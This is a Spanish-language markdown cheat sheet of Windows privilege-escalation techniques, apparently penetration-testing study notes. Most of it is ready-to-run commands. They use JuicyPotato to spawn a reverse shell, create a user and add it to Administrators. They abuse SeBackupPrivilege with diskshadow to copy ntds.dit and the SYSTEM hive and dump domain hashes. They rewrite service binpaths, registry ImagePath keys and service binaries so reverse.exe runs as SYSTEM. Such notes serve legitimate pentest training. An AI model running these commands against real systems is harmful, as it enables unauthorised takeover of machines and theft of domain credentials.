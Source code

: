 ## Windows Privilege Escalation

Técnicas utilizadas para escalar privilegios en sistemas basados en Windows.

### Recursos

[Hacktricks - Windows Privesc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Payload All The Things - Windows Privesc Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Sushant Guide OSCP](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

[Another good guide](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows)


### Técnicas comúnes para escalar privilegios 


- [Abusing Tokens](#whoami-priv)
  - [SeImpersonatePrivilege](#SeImpersonatePrivilege)
  - [SeBackupPrivilege & SeRestorePrivilege](#SeBackupPrivilege-And-SeRestorePrivilege)
- [Privileged Groups](#whoami-groups)
- [Servicios Vulnerables](#Servicios-Vulnerables)
  - [Insecure Permissions](#Insecure-Permissions)
  - [Unquoted Service Path](#Unquoted-Service-Path)
  - [Weak Registry Permissions](#Weak-Registry-Permissions)

## whoami priv

[Hacktricks Guide](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

**Lista de Tokens de Acceso interesantes**

|Privilege|Privilege|
|--|--|
|**SeImpersonatePrivilege**|**SeAssignPrimaryPrivilege**|
|**SeTcbPrivilege**|**SeBackupPrivilege**|
|**SeRestorePrivilege**|**SeCreateTokenPrivilege**|
|**SeLoadDriverPrivilege**|**SeTakeOwnershipPrivilege**|
|**SeDebugPrivilege**||

### SeImpersonatePrivilege

#### Mediante una Reverse Shell

**Tool**: JuicyPotato.exe 
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c c:\windows\temp\rev.exe" -c <clsid> (optional)
```
#### Creando nuestro propio usuario
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net user chan chan123 /ADD"
```
**Agregándo nuestro usuario al grupo Local Administrators**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net localgroup Administrators chan /add" 
```
**Cambiando el registro LocalAccountTokenFilterPolicy para poder tener acceso remoto**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" 
```
 
### SeBackupPrivilege And SeRestorePrivilege

**Crear una lista de instrucciones que serán ejecutadas con Diskshadow (Herramienta de gestión de discos)**

```bash
SET CONTEXT PERSISTENT NOWRITERS#
add volume c: alias chan#
create#
expose %chan% z:#
```
**Lo subimos a nuestro target y ejecutamos**
```cmd
diskshadow /s fichero_instrucciones.txt
```

**Luego subimos e importamos dos Dlls que nos servirán para copiar archivos entre discos**

[Dlls utilizados](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Copiamos el ntds.dit (Base de datos que almacena hashes del AD)**
```powershell
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\temp\ntds.dit
```
**Guardamos la llave system del registro de windows**
```powershell
reg save HKLM/SYSTEM c:\temp\system
```
**Dumpeamos los hashes con impacket-secretsdump y voila**
```bash
impacket-secretsdump -ntds ndts.dit -system system -hashes lmhash:nthash LOCAL
```

## whoami groups

[Guía detallada](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges)

### Dns admins

***HTB Machine*** : **Resolute**


## Servicios Vulnerables

**Obtener lista de servicios**

```cmd
net start
wmic service list brief
sc query
Get-Service
```
**Obtener permisos del servicio**

```cmd
sc qc <service_name>
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```

**Ver si Authenticated Users pueden modificar el servicio**

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```

### Insecure Permissions

**Podemos usar accesschk.exe para verificar los permisos del usuario actual sobre un servicio en específico**
```cmd
.\accesschk.exe /accepteula -uwcqv <user> daclsvc
```
**En caso de tener el permiso `SERVICE_CHANGE_CONFIG` podemos aprovecharnos y modificar la propiedad `BINARY_PATH_NAME`**

Es necesario consultar si el servicio corre como SYSTEM mirando la propiedad `SERVICE_START_NAME`
```cmd
sc qc daclsvc
```
Modificamos la configuración del servicio y establecemos el BINARY_PATH_NAME (binpath) al de una reverse shell o un binario que queramos ejecutar

```cmd
sc config daclsvc binpath= "C:\tmp\reverse.exe"
```
Ponemos un socket de escucha e iniciamos el servicio

```cmd
net start daclsvc
```

### Unquoted Service Path 

[Explicación](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is)


**Primero debemos verificar que el servicio está corriendo como SYSTEM observando la propiedad `SERVICE_START_NAME` y también checkear si el nombre tiene espacios en el path mirando la propiedad `BINARY_PATH_NAME` **

```cmd
sc qc unquotedsvc
```

**Luego verificamos los permisos de la carpeta donde se ubica el binario real**
```cmd
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
icacls "C:\Program Files\A Subfolder"
```
**Ahora copiamos la reverse shell en el folder final donde se situaba el binario**

```cmd
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

**Iniciamos el servicio**
```cmd
net start unquotedsvc
```

### Weak Registry Permissions

Consultamos el servicio `regsvc` y verificamos si está corriendo como SYSTEM (`SERVICE_START_NAME`).
```cmd
sc qc regsvc
```
Verificamos si el servicio es writable por algun grupo al que pertenezcamos, si sale `NT_AUTHORITY\Interactive` quiere decir que es modificable por cualquier usuario logueado.

```cmd
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Sobrescribimos la llave del registro ImagePath para que apunte al ejecutable reverse.exe que hemos creado

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
Iniciamos un listener en Parrot y luego iniciamos el servicio para generar una shell reversa que se ejecute con privilegios de SYSTEM

```cmd
net start regsvc
```

### Insecure Service Executables

Primero debemos consultar el servicio  y verificar que se ejecuta con privilegios de SYSTEM (SERVICE_START_NAME).
```cmd
sc qc filepermsvc
```

Validamos si tenemos permisos para sobreescribir el binario del servicio `BINARY_PATH_NAME` 
```cmd
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Sobreescribimos el binario con una rev shell  e iniciamos el servicio
```cmd
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
net start filepermsvc
```





